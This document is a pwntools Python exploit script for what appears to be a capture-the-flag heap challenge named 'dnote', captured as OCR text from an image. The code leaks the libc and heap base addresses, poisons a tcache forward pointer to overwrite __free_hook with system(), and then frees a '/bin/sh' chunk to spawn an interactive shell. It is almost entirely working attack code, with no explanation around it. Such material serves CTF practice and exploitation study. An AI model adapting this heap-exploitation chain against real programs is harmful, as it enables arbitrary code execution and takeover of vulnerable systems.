 ```py
p=process('./dnote_patched')
# p = connect('chall.nitdgplug.org', 30094)

########################################
### Stage 1: Leak main arena address ###
########################################
add(0, 0x1000, '{}'.format(0).encode()*8)
add(1, 0x10, '{}'.format(1).encode()*8)
free(0)

add(2, 0x1100, '{}'.format(2).encode()*8)

libc.address = u64(show(0).ljust(8, b'\x00')) - 0x1c5220
log.success("Libc base: " + hex(libc.address))

##################################
### Stage 2: Leak heap address ###
##################################
add(0, 0x10, '{}'.format(0).encode()*8)
free(0)

heap = u64(show(0).ljust(8, b'\x00')) << 12
log.success("Heap base: " + hex(heap))

add(0, 0x10, '{}'.format(0).encode()*8)

##########################################
### Stage 3: Overwrite forward pointer ###
##########################################
for i in range(7):
    add(i, 0x100, '{}'.format(i).encode()*8)
add(7, 0x100, '{}'.format(7).encode()*8)
add(8, 0x100, '{}'.format(8).encode()*8)
add(9, 0x10, '{}'.format(9).encode()*8)

for i in range(7):
    free(i)
free(8)
free(7)
add(20, 0x100, b'testtest')
free(8)

fake_fw_pointer = ((heap + 0xb40) >> 12) ^ (libc.sym['__free_hook'])
payload = b'\x00'*0x100                 # Padding to tcache
payload += flat(0, 0x111)               # Prev_size and size of tcache
payload += flat(fake_fw_pointer)        # Overwrite forward pointer
add(10, 0x130, payload)

######################################################
### Stage 4: Overwrite `__free_hook` with system() ###
######################################################
add(11, 0x100, b'/bin/sh')
add(12, 0x100, p64(libc.sym['system']))

free(11)

p.interactive()
```
